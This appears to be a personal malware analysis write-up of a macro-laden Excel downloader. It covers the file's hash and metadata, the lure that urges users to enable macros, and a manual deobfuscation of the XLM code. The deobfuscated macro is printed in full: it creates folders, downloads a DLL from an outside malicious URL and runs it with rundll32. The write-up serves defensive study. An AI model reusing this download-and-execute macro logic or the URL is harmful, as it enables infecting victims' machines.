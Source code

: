 #xls #malware #macros #xlm_macros #downloader 

# Basic info 
MD5: `d7468f3bfae912928bdf3b8ddc0d8ff9`
file info: Composite Document File V2 Document, Little Endian, Os: Windows, Version 10.0, Code page: 1252, Author: vlcqBjjWJkHThPgSWv, Last Saved By: Company, Name of Creating Application: Microsoft Macintosh Excel, Create Time/Date: M  
on Nov 23 13:55:34 2020, Last Saved Time/Date: Mon Nov 23 14:13:13 2020

# Analysis
We start by a excel file

Checking it using `oleid` 
![[1.png.png]]
the file contains a xlm macros

Now open the file in excel and make sure that macros not enabled
![[2.png.png]]

notice that the file contains 2 sheets and it has a social engineering message to make the user enable macros

open the second sheet and go to the auto_open cell 
![[3.png.png]]
this will be the start of xlm macros

now i will continue as static analysis without running the macro just for my personal training 
i will copy all the codes to vs code and start manual deobfuscation

![[4.png.png]]
it is clear that it will start build up strings like this url 

```c
url = "https://tophomedesignz.com/sport.dll"
cmd = "C:\rxtGJXs\uEOIlCU\URLdaxT.dll,DllRegisterServer"
path = "C:\rxtGJXs\uEOIlCU\URLdaxT.dll"
urlmon = "URLMON"
downloadtofile = "URLDownloadToFileA"
shell32 = "Shell32"
shell_exec ="ShellExecuteA"
open = "Open"
CJyenomr = "regsvr32.exe"
rundll32 = "rundll32.exe"
dir1 = "C:\rxtGJxs"
subdir1 = "C:\rxtGJxs\uEOIlCU"
krnl32 = "kernel32"
mkdir = "CreateDirectoryA"
QRbytXZ = "INSEGN"
CIbjZFzB = "DownloadFile"
cHFnbvmd = "zbaqgiaz"
dGZFcuHu = "BLttghIR"
BMdezBL = "YSKhEnyF"
JCJ = "JCJ"
JJCCJJ = "JJCCJJ"
JJCCCCJ = "JJCCCCJ"

=CALL(krnl32,mkdir,JCJ,dir1,0)
=CALL(krnl32,mkdir,JCJ,subdir1,0)
=CALL(urlmon,downloadtofile,JJCCJJ,0,URL,path,0,0)
=CALL(shell32,shell_exec,JJCCCCJ,0,open,rundll32,cmd,0,0)

=HALT()
```


The excel file will do the following:
1. create a directory `C:\rxtGJxs\uEOIlCU`
2. download the dll from `https://tophomedesignz.com/sport.dll` at `C:\rxtGJXs\uEOIlCU\URLdaxT.dll` 
3. run the dll `C:\rxtGJXs\uEOIlCU\URLdaxT.dll,DllRegisterServer`


